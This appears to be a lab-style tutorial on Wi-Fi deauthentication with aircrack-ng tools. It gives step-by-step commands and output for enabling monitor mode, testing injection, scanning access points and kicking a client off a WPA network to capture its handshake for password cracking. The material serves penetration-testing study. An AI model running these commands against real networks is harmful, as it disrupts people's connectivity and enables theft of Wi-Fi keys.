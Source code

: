 ___

#### Deauth attacks

**List attack modes**

```bash
aireplay-ng

 Attack modes (numbers can still be used):
      --deauth      count : deauthenticate 1 or all stations (-0)
      --fakeauth    delay : fake authentication with AP (-1)
      --interactive       : interactive frame selection (-2)
      --arpreplay         : standard ARP-request replay (-3)
      --chopchop          : decrypt/chopchop WEP packet (-4)
      --fragment          : generates valid keystream   (-5)
      --caffe-latte       : query a client for new IVs  (-6)
      --cfrag             : fragments against a client  (-7)
      --migmode           : attacks WPA migration mode  (-8)
      --test              : tests injection and quality (-9)

      --help              : Displays this usage screen
```

| **Attack** | **Attack Name**                      |
| ---------- | ------------------------------------ |
| `Attack 0` | Deauthentication                     |
| `Attack 1` | Fake authentication                  |
| `Attack 2` | Interactive packet replay            |
| `Attack 3` | ARP request replay attack            |
| `Attack 4` | KoreK chopchop attack                |
| `Attack 5` | Fragmentation attack                 |
| `Attack 6` | Cafe-latte attack                    |
| `Attack 7` | Client-oriented fragmentation attack |
| `Attack 8` | WPA Migration Mode                   |
| `Attack 9` | Injection test                       |

Before sending deauthentication frames, it's important to verify if our wireless card can successfully inject frames into the target access point (AP).

1. Enable monitor mode on channel

```bash
airmon-ng start wlan0 1
```

2. test for packet injection

```bash
sudo aireplay-ng --test wlan0mon
```
(we should see `Injection is working!`)


**Now we know we can inject packets with our interface, lets perform the deauth**

Identify the AP
```bash
sudo airodump-ng wlan0mon

CH  1 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ][
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                            
 00:09:5B:1C:AA:1D   11  16       10        0    0   1  54.  OPN              TOMMY                         
 00:14:6C:7A:41:81   34 100       57       14    1   1  11e  WPA  TKIP   PSK  HTB 
 00:14:6C:7E:40:80   32 100      752       73    2   1  54   WPA  TKIP   PSK  jhony                             

 BSSID              STATION            PWR   Rate   Lost  Frames   Notes  Probes

 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24    2       14           HTB 
 (not associated)   00:14:A4:3F:8D:13   19    0-0     0        4            
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36    0        5           HTB 
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54    0       99           jhony
```

From the above output, we can see that there are three available WiFi networks, and `two clients` are connected to the network named `HTB`. Let's send a deauthentication request to one of the clients with the station ID `00:0F:B5:32:31:31`.

```bash
sudo aireplay-ng -0 5 -a 00:14:6C:7A:41:81 -c 00:0F:B5:32:31:31 wlan0mon
```
- `-0` means deauthentication
- `5` is the number of deauths to send (you can send multiple if you wish); `0` means send them continuously
- `-a 00:14:6C:7A:41:81` is the MAC address of the access point
- `-c 00:0F:B5:32:31:31` is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated
- `wlan0mon` is the interface name

Once the clients are deauthenticated from the AP, we can continue observing `airodump-ng` to see when they reconnect.

```bash
sudo airodump-ng wlan0mon

CH  1 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ][ WPA handshake: 00:14:6C:7A:41:81
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                            
 00:09:5B:1C:AA:1D   11  16       10        0    0   1  54.  OPN              TOMMY                         
 00:14:6C:7A:41:81   34 100       57       14    1   1  11e  WPA  TKIP   PSK  HTB 
 00:14:6C:7E:40:80   32 100      752       73    2   1  54   WPA  TKIP   PSK  jhony                             

 BSSID              STATION            PWR   Rate   Lost  Frames   Notes  Probes

 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24   212     145   EAPOL  HTB 
 (not associated)   00:14:A4:3F:8D:13   19    0-0      0       4            
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36     0       5          HTB 
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54     0       9          jhony

```


In the output above, we can see that after sending the deauthentication packet, the client disconnects and then reconnects. This is evidenced by the increase in `Lost` packets and `Frames` count.

Additionally, a `four-way handshake` would be captured by `airodump-ng`, as shown in the output. By using the `-w` option in airodump-ng, we can save the captured WPA handshake into a `.pcap` file. This file can then be used with tools like `aircrack-ng` to crack the pre-shared key (PSK)


